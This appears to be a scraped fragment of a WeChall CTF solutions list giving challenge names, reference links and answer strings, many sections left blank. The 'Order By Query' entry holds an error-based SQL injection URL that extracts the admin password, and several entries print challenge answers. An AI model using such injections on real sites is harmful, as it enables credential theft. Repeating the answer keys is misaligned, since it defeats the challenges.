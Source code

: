 ### Count, don't wonder (Stegano, Image)

### Save the World (Crypto)
ref: https://github.com/CyrilP/wechall/blob/master/SaveTheWorld.java

```
21987654321987654321
```


### Screwed Signup (Exploit)
ISCC2016

```
Register =>
username=Admin
password=123456
Login => the same
```


### Order By Query (Exploit, MySQL, PHP)
ref: http://byd.dropsec.xyz/2016/07/23/Webchall-CTF-writeup2/

http://www.wechall.net/challenge/order_by_query/index.php?by=3 and extractvalue(1, (select password from users where username=CHAR(65, 100, 109, 105, 110)))#

```
3C3CBEB0C8ADC66F2922C65E7784BE14
```

http://byd.dropsec.xyz/2016/07/23/Webchall-CTF-writeup2/


### Snake (Java, PHP, Fun)


### Speed Your Way To VICtory (Encoding, Audio, Crypto)


### Training: Warchall - 7 Tropical Fruits (Realistic, Linux, Shell, Exploit, Warchall)
ref: http://rk700.github.io/2014/06/19/tropical-fruits/
```
HammertimeAXELDeFaultPage
```


### What is your Name? (Exploit, PHP, Coding)


### Time to Reset II (Exploit, Coding, PHP)


### Stalking (Realistic, Research)
Please solve the Identity challenge first.


### Warchall: Nurxxed (PHP, Exploit, Warchall)
PHP Object Injection


### 2013 New Years Special (Special, Crypto)


### Nippon (Stegano, Crypto)
